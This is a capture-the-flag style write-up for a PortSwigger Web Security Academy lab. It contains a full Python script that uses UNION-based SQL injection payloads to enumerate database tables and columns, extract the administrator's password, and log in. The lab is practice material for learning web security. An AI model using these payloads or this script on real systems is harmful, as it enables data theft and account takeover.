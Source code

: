 ```yaml
---
title:
  SQL injection attack, listing the database contents on non-Oracle databases
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle/">
8. SQL injection attack, listing the database contents on non-Oracle databases</a>

We abuse a SQL injection vulnerability to conduct another UNION attack. This
time, we use the UNION attack to retrieve information about the target's
database, particularly the tables that exist and their columns. After exposing
the name of the user's table, we expose the user table's username and password
columns. Then we use the previous CONCAT() oriented attack to leak the
administrator's username and password. After exposing the administrator's
credentials, we can log in as the administrator.

Solution:

```python
# usage:
# python3 8.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        s = requests.Session()
        r = s.get(
            f"{self.url}/filter?category=Gifts'+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--+"
        )
        user_table = re.findall(r"(users_[\w]+)", r.text)[0]
        r = s.get(
            f"{self.url}/filter?category=Gifts'+UNION+SELECT+COLUMN_NAME,TABLE_NAME+FROM+information_schema.columns+WHERE+TABLE_NAME+%3d+'{user_table}'--+"
        )
        username_column = re.findall(r"(username_[\w]+)", r.text)[0]
        password_column = re.findall(r"(password_[\w]+)", r.text)[0]
        r = s.get(
            f"{self.url}/filter?category=Gifts'+UNION+SELECT+CONCAT({username_column},'%3a',{password_column}),NULL+FROM+{user_table}--+"
        )
        password = re.findall(r"administrator:([\w]+)", r.text)[0]
        r = self.login("administrator", password)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
